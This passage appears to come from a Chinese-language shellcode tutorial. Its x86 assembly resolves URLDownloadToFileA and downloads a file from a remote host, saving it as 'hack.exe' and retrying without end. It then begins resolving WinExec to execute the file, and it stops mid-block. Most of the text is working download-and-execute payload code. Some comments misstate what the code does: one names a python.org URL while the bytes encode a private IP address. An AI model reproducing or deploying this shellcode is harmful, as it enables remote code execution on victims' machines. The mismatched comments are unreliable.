   * 通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址
    ```asm
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```

  * 使用该函数进行[下载文件](https://www.exploit-db.com/shellcodes/13533)
    ```asm
    ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
    download:
    pop eax
    xor ecx, ecx
    push ecx
    ; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
    push 0x6578652E         ; exe.
    push 0x74646573         ; tdes
    push 0x6F6F672F         ; oog/
    push 0x33312E36         ; 31.6
    push 0x352E3836         ; 5.86
    push 0x312E3239         ; 1.29
    push 0x312F2F3A         ; 1//:
    push 0x70747468         ; ptth
    push esp
    pop ecx                 ; save the URL string
    xor ebx, ebx
    push ebx
    ; save as hack.exe
    push 0x6578652E         ; exe.
    push 0x6B636168         ; kcah
    push esp
    pop ebx                 ; save the downloaded filename string
    xor edx, edx
    push edx
    push edx
    push ebx
    push ecx
    push edx
    mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
    call eax
    pop ecx
    add esp, 44
    xor edx, edx
    cmp eax, edx
    push ecx
    jnz download            ; if it fails to download , retry contineusly
    pop edx
    ```
  * 找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序
    ```asm
    Create string 'WinExec\x00' on the stack and save its address to the stack-frame
    mov edx, 0x63657878     \
    shr edx, 8              ; Shifts edx register to the right 8 bits